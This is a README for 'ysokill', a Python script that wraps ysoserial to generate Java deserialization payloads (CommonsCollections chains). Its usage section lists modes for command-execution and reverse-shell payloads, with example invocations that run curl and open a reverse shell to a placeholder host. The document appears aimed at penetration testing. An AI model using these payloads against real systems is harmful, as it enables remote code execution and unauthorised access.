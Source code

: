 <h1 align="center">
<br>☕️ ysokill ☕️
</h1>

<!-- ABOUT THE PROJECT -->
## 📚 About The Project


   Ysokill is a python script for generate all CommonsCollections payload's using the ysoserial.

![image](https://user-images.githubusercontent.com/80011252/195660401-b066c1dd-718f-4f0a-9c57-d9ee4f4fd44e.png)

### 🛠️ Installation


1. Clone the repo
   ```sh
   git clone https://github.com/scarmandef/ysokill.git
   ```
2. Install dependencies
   ```sh
   pip3 install -r requirements.txt
   ```
3. Run the script
   ```py
   python3 main.py
   ```

### 🖥️ Usage


1. Run the Script
   ```sh
   python3 main.py --help
   ```
2. Choose the mode
   ```sh
      1 - Object Command "H4sIAAAA"
      2 - Object Reverse Shell "H4sIAAAA"
      3 - Object Command "rO0ABXNy"
      4 - Object Reverse Shell "rO0ABXNy"
      5 - Binary Command
      6 - Binary Reverse Shell
   ```
3. Example: Modes 1 to 3
   ```py
   python3 main.py -m 1 -c 'curl https://127.0.0.1'
   ```
4. Example: Modes 3 to 4
   ```py
   python3 main.py -m 4 -l 127.0.0.1 -p 443
   ```
